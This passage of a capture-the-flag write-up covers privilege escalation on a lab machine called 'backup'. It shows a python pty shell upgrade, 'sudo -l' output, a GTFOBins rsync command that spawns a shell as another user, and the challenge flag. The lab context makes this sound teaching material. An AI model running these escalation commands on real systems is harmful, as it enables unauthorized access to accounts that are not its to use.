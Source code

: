 And we got a shell on backup machine!

![7-Shell_Backup](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/39e30cdf-ba11-479a-9aff-2c51a96eb42c)

Import the TTY, and look if we can do something with sudo.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                    
www-data@backup:~/html$ sudo -l                                                                                     
sudo -l                                                                                                             
Matching Defaults entries for www-data on backup:                                                                   
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on backup:
    (backup) NOPASSWD: /usr/bin/rsync
```

We can use ```rsync``` with ```sudo``` as ```backup``` user. Let's go to GTFObins and look if we can do something with it.

Source : https://gtfobins.github.io/#rsync

![8-Privesc](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/1fa8be73-f001-411a-a543-317b3e989049)

Great! We can escalate our privilege to user backup! Let's do it.

```bash
sudo -u backup /usr/bin/rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

![9-backup_shell](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/2e34048b-0ed6-46b0-8f87-54178cd922a6)

Once again, import the TTY and start to enumerate the new machine.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
backup@backup:/var/www/html$
```

After looking around, we notice a backup directory at the root of the machine.

![10-flag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/20ecd8eb-85ee-4e40-9210-8b6f96e0ed8a)

And we got the flag!

Flag : **Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}**

## LFM-3 : admin:admin<a name="lfm3"></a>
